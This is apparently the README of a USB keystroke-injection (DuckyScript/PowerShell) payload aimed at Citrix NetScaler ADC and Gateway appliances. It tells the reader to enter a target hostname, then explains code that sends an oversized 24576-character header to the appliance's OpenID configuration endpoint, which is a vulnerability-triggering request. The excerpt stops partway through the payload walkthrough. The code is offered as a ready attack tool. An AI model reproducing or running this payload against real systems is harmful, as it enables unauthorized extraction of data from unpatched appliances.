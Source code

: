 ***Note**: NetScaler ADC and NetScaler Gateway version 12.1 is now End-of-Life (EOL) and is vulnerable.*

This bulletin only applies to customer-managed NetScaler ADC and NetScaler Gateway products. Customers using Citrix-managed cloud services or Citrix-managed Adaptive Authentication do not need to take any action.

![](./assets/1.png)

***Source**: The information was acquired from the official website of [support.citrix.com](#sources).*

## Settings

The sole configuration parameter that requires modification is the hostname, which represents the IP address (without protocol) of the target Citrix ADC / Gateway machine, such as 192.168.1.200. To configure this setting, you need to edit the "payload.txt" file to specify the desired address.

```DuckyScript
* REM Replace #HOSTNAME with your target, so put here the Citrix ADC / Gateway target, excluding the protocol (e.g. 192.168.1.200)
QUACK STRING $uri = "https://#HOSTNAME/oauth/idp/.well-known/openid-configuration"
```

## Payload Description Windows

In this line, a variable named `$header_value` is created, containing a string of 24576 'a' characters. This variable represents the value to be used in the HTTP header.

```powershell
$header_value = 'a' * 24576
```

Here, all newline characters ("\n") are removed from the string stored in `$header_value`. This is done to ensure that the string doesn't contain any line break characters.

```powershell
$header_value = $header_value -replace "\n", ""
```

A variable `$headers` is created, which holds an HTTP header formatted as a string. This header will be used in the subsequent HTTP request.
